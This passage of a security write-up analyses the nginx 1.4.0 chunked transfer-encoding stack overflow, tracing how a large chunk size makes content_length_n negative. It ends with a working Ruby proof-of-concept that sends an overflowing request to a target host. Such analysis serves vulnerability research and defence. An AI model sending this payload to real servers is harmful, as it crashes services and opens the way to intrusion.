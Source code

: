 ngx\_http\_discard\_request\_body_filter will execute <a href="https://github.com/danghvu/nginx-1.4.0/blob/master/src/http/ngx_http_request_body.c#L707" target="_blank">ngx_http_parse_chunked</a> which is the code we mentioned in (1). After that, the return value in &#8220;rc&#8221; is checked with some constant to decide the next move. One of them is particularly very interesting.

<pre class="brush: cpp; title: ; notranslate" title="">if (rc == NGX_AGAIN) {
     /* set amount of data we want to see next time */
     r-&gt;headers_in.content_length_n = rb-&gt;chunked-&gt;length;
     break;
}
</pre>

**Suppose we can set rb->chunked->length as a very large number at (1), and then set rc = NGX_AGAIN at (3), following events will happen:  
**

- r->headers\_in.content\_length\_n is set to negative ( as it is defined with \`off\_t\` which is <a href="http://www.gnu.org/software/libc/manual/html_mono/libc.html" target="_blank">&#8220;a signed integer&#8221;</a> type.).

- The function ngx\_http\_discard\_request\_body_filter return and the program move to execute <a href="https://github.com/danghvu/nginx-1.4.0/blob/master/src/http/ngx_http_request_body.c#L526" target="_blank">ngx_http_read_discarded_request_body</a>. which contains our vulnerable buffer.

- Finally the recv() command is tricked to receive more than 4096 bytes and overflow the buffer on the stack.

There are many ways to set chunked->length, since rb->chunked->length is assigned at the end of ngx\_http\_parse_chunked function based on the rb->chunked->size that we have a direct control.

<pre class="brush: cpp; title: ; notranslate" title="">switch (state) {
case sw_chunk_start:
	ctx-&gt;length = 3 /* "0" LF LF */;
break;
	case sw_chunk_size:
ctx-&gt;length = 2 /* LF LF */
              + (ctx-&gt;size ? ctx-&gt;size + 4 /* LF "0" LF LF */ : 0);
</pre>

To make rc = NGX\_AGAIN, we realize that for a request nginx makes the first recv with 1024 bytes, so if we send more than 1024 bytes ngx\_http\_parse\_chunked will return with a NGX_AGAIN then when nginx tries to recv again it will be right into our setup.

**The payload to overflow the stack buffer is as follows: **

- Send http request with a &#8220;transfer-encoding: chunked&#8221;

- Send a large hexadecimal number to fill the entire 1024 bytes of the first read

- Send > 4096 bytes to overflow the buffer when it try to recv the second times

**TL;DR ?** Here is the proof of concept for x64

<pre class="brush: ruby; title: ; notranslate" title="">require 'ronin'
tcp_connect(ARGV[0],ARGV[1].to_i) { |s|
    payload = ["GET / HTTP/1.1rn",
            "Host: 1337.vnsecurity.netrn",
            "Accept: */*rn",
            "Transfer-Encoding: chunkedrnrn"].join
    payload &lt;&lt; "f"*(1024-payload.length-8) + "0f0f0f0f" #chunked
    payload &lt;&lt; "A"*(4096+8) #padding
    payload &lt;&lt; "C"*8 #cookie
    s.send(payload, 0)
}
</pre>
